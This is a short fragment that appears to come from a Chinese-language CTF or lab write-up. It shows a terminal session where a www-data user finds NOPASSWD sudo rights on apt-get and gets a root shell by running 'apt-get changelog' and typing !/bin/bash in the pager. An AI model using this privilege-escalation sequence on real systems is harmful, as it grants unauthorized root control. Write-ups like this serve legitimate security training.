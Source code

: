 在切换出的窗口输入!/bin/bash即可提权
~~~
www-data@ubuntu:/home/ted$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get
www-data@ubuntu:/home/ted$ sudo /usr/bin/apt-get changelog apt
sudo /usr/bin/apt-get changelog apt
Get:1 http://changelogs.ubuntu.com apt 1.2.35 Changelog [413 kB]
Fetched 413 kB in 2s (179 kB/s)     
root@ubuntu:/home/ted# whoami                 whoami
whoami
root
root@ubuntu:/home/ted# 
~~~
定妆照
![Branching](Pasted image 20241103164354.png)
